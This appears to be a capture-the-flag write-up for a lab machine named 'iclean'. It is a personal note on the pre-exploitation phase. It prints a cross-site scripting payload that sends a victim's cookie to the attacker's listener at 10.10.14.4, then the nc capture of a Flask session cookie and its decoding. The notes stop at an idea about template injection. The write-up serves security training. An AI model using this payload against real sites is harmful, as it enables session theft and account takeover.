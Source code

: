 ## pre-exploitation
-when we modify parameters and send it to the website , nothing reflected on the webpage what ever the request
-xss <> cookies stealing !
-http://capiclean.htb/quote check
```bash
in burpsuit:
service=Carpet+Cleaning&service=Tile+%26+Grout&email=aaa%40gmail.com
```

```xss
<img src=x onerror=fetch(‘http://10.10.14.4:8888/?c=’+document.cookie);>

after encoding
service=%3Cimg%20src%3Dx%20onerror%3Dfetch%28%27http%3A%2F%2F10.10.14.4%3A8888%2F%3Fc%3D%27%2Bdocument.cookie%29%3E&service=Tile%20%26%20Grout&email=aaa%40gmail.com
```

```bash
┌──(pwn㉿kali)-[~/iclean]
└─$ nc -nlvp 8888            
listening on [any] 8888 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.12] 60932
GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Z6BIvw.VWUdY31-3wsajnnoBBgBhaRY9jw HTTP/1.1
Host: 10.10.14.4:8888
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:3000
Referer: http://127.0.0.1:3000/

---
first:
eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ

```
-This is a **Flask session cookie**, which is used to store user login information on the website.
-**How Does It Work?**
- When you log in, the website gives you a **session cookie**.
- This cookie tells the website **who you are** (normal user, admin, etc.).
- The website reads this cookie every time you visit a page to check your role.
```bash
┌──(pwn㉿kali)-[~/iclean]
└─$ echo "eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ==" | base64 -d

{"role":"21232f297a57a5a743894a0e4a801fc3"}    
md5 hash

```
-Inside the cookie, there's a **hidden role** that might tell the website whether you're a normal user or an admin.
-Flask **session cookies** store user information **inside the cookie itself**, rather than on the server
```bash
┌──(pwn㉿kali)-[~/iclean]
└─$ echo -n "admin" | md5sum
21232f297a57a5a743894a0e4a801fc3
```
-The application may **default all users to an "admin" role**, even if they are not actually admins.
![[Pasted image 20250203091718.png]]
-/dashboard
-**Server-Side Template Injection (SSTI)**.?